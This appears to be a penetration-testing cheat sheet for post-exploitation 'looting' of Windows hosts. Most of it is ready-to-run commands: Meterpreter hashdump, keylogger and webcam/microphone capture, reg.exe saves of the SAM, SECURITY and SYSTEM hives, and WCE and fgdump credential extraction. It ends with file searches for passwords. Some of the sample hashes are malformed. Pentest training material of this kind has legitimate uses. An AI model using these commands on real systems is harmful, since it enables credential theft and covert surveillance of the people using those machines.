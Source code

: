 # Loot Windows

## Meterpreter

If you have a meterpreter shell you are able to do a lot of thing with very little effort.  
If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

Show help of all commands:

```
-h
```

**Dump windows hashes for further analysis**

```
hashdump
```

Keylogger

```
keysscan_start
keyscan_dump
keyscan_stop
```

**Mic and webcam commands**

```
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```

## Dumping passwords and hashes on windows

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on to the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until \(and including\) Windows 2003 stored the passwords in LAN Manager \(LM\) and NT LAN Manager \(NTLM\). LM is incredibly insecure. From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM &gt;= Windows 2003**

**NTLM &gt; Windows vista**

### LM Hashes

LM hashes can be really easy to crack. The LM part in the example below is the first part.

```
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT

```
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

### fgdump.exe

We can use `fgdump.exe` \(`locate fgdump.exe` on kali\) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it.

### Windows Credencial Editor \(WCE\)

WCE can steal NTLM passwords from memory in cleartext!  
There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this

```
wce32.exe -w
```

### Loot registry without tools

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries.  
Get the registry:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

### Pwdump 7

[http://www.tarasco.org/security/pwdump\_7/](http://www.tarasco.org/security/pwdump_7/)

## VNC

VNC require a specific password to log in to. So it is not the same password as the user password. If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

## Tcp-dump on winfows

You can use meterpreter to easily take a tcp-dump, like this:

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Search for interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# Recursive search
dir /s
```

### Search for \*More\* interesting files \(passwords\)

 Just to clarify, I’m looking for text within the file, not in the file name.

The following prints out the relative file name/path and line number \(/n\) in a recursive \(/s\), case insensitive \(/i\) search for the string password \(password\) in all files \(\*\), ignoring files with non-printable characters \(/p\)

```
#from c://
findstr /n /s /i /p password *
```

## References

This is a great post  
[https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)

[http://www.ericmmartin.com/finding-files-containing-a-certain-value/](http://www.ericmmartin.com/finding-files-containing-a-certain-value/)

